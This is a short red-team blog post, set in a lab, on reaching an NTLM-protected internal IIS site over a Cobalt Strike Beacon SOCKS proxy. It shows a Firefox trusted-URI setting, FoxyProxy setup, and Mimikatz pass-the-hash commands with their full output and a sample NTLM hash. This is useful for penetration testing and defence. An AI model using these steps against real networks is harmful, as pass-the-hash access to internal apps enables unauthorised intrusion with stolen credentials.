 ```yaml
---
title: "NTLM Authentication with Firefox & FoxyProxy"
date: 2022-06-17T09:57:19+01:00
draft: false
authors:
    - RastaMouse
---
```


It's common for organisations to host internal web applications that are configured for single sign-on, backed by Active Directory.  Even though Kerberos is becoming more common, NTLM is still more ubiquitous (especially for legacy apps).  This short post will demonstate how to authenticate to a web app over a SOCKS proxy, using NTLM.

I'm running the default IIS web page on a Windows Server.  Under the Authentication settings, I've disabled Anonymous Auth and only enabled the NTLM provider under Windows Auth.

![](/images/ntlm-auth/iis-auth-settings.png "IIS Authentication Settings")

As a member of the domain, we can see the IIS landing page.

![](/images/ntlm-auth/domain-user.png "IIS Landing Page")

If we have a Beacon running as a domain user, we can start the SOCKS proxy and configure FoxyProxy to point to the IP/port of your Team Server.

```
beacon> getuid
[*] You are DEV\rasta

beacon> socks 1080
[+] started SOCKS4a server on: 1080
```

![](/images/ntlm-auth/foxy-proxy.png "FoxyProxy")

As you can probably guess, we're unable to access the IIS landing page because we have no credentials.

![](/images/ntlm-auth/unauthorized.png "IIS Unauthorized")

First, we need to modify one of the "hidden" Firefox preferences.  Enter `about:config` into the address bar and search for the `network.automatic-ntlm-auth.trusted-uris` preference item. Add the URL, `http://192.168.56.1` in my case and click the little tick button.  Then close Firefox.

To provide the credential material, we can launch Firefox using Mimikatz' Pass-the-Hash capability (how you get the NTLM hash in the first place is of course up to you).

```
  .#####.   mimikatz 2.2.0 (x64) #19041 May 13 2022 10:13:10
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /domain:dev.lab /user:rasta /rc4:FC525C9683E8FE067095BA2DDC971889 /run:"C:\Program Files\Mozilla Firefox\firefox.exe"
user    : rasta
domain  : dev.lab
program : C:\Program Files\Mozilla Firefox\firefox.exe
impers. : no
NTLM    : fc525c9683e8fe067095ba2ddc971889
  |  PID  24428
  |  TID  7744
  |  LSA Process is now R/W
  |  LUID 0 ; 1341041463 (00000000:4feeab37)
  \_ msv1_0   - data copy @ 0000029A8FDD0AC0 : OK !
  \_ kerberos - data copy @ 0000029A8FCC44A8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 0000029A8FDA7428 (32) -> null
```

> It's also worth noting, that if the web app accepted plaintext domain creds, we could launch Firefox using `runas /netonly`.

Navigating to the URL now gives us access.

![](/images/ntlm-auth/authorized.png "IIS Authorized")